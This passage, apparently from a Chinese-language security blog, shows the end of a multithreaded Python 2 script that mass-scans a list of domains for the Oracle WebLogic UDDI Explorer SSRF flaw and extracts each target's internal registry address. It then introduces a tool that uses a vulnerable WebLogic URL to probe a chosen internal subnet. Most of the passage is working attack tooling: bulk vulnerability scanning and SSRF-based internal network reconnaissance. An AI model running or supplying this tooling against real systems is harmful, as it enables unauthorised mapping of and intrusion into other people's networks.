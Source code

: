 ```python
        except Exception,e:
            pass

    def get_registry(self,domain):
        payload = 'uddiexplorer/SetupUDDIExplorer.jsp'
        url = domain + payload

        try:
            html = requests.get(url=url, timeout=15, verify=False).content
            m = re.search('<i>For example: (.*?)/uddi/uddilistener.*?</i>',html)
            if m:
                return m.group(1)
        except Exception,e:
            pass

    def run(self):
        while not self.queue.empty():
            domain = self.queue.get()
            mutex.acquire()
            print domain
            mutex.release()
            ip = self.get_registry(domain)
            self.check(domain,ip)

            self.queue.task_done()


if __name__ == '__main__':
    with open('C:\\Users\\m\\domain.txt','r') as f:
        lines = f.readlines()
    for line in lines:
        queue.put(line.strip())

    for x in xrange(1,50):
        t = Weblogic_SSRF_Check(queue)
        t.setDaemon(True)
        t.start()
    queue.join()
```

#### 通过weblogic SSRF漏洞对内网进行探测

`--url`  参数：存在weblogic SSRF漏洞的url   
`--ip`  参数：想扫描的内网网段

![pic1](/assets/ssrf/10.png)
